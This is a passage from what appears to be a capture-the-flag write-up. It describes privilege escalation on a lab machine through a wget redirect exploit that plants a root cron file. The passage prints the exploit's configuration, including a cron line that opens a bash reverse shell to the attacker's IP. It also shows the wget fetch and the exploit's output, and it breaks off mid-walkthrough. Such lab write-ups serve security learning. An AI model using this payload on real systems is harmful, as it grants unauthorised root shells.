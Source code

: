 I'll save a copy of the Python POC locally and make a few edits. It's
got `go_GET` and a `do_POST` methods to handle incoming requests. It
assumed the first request will be a GET, and will redirect that to get
the `.wgetrc`. Then the next request will be a POST if that worked, and
that's where it returns the `cron` file. Those functions are fine.
There's some configuration at the bottom that needs updating:



    HTTP_LISTEN_IP = '10.0.3.1' 
    HTTP_LISTEN_PORT = 80
    FTP_HOST = '10.10.10.55' 
    FTP_PORT = 21

    ROOT_CRON = "* * * * * root bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1' \n"



The HTTP listen needs to be on the IP that the container is connecting
to.

Now the `cron` will result in a reverse shell. With a Python webserver
in my VM, I'll grab it with `wget`:



    atanas@kotarak-dmz:/tmp/.0xdf$ wget 10.10.14.15/wget_exploit.py
    --2021-05-15 13:38:07--  http://10.10.14.15/wget_exploit.py
    Connecting to 10.10.14.15:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 2616 (2.6K) [text/x-python]
    Saving to: ‘wget_exploit.py’

    wget_exploit.py     100%[===================>]   2.55K  --.-KB/s    in 0.001s  

    2021-05-15 13:38:07 (2.50 MB/s) - ‘wget_exploit.py’ saved [2616/2616]



Now run it with `authbind`, and it checks that the FTP server is good,
and then waits:



    atanas@kotarak-dmz:/tmp/.0xdf$ authbind python wget_exploit.py 
    Ready? Is your FTP server running?
    FTP found open on 10.10.10.55:21. Let's go then

    Serving wget exploit on port 80...



There is a connection at the FTP server as well:



    [I 2021-05-15 13:43:25] 10.10.10.55:36996-[] FTP session opened (connect)



After a minute, the first request comes in, a GET, and it's handled with
the redirect:


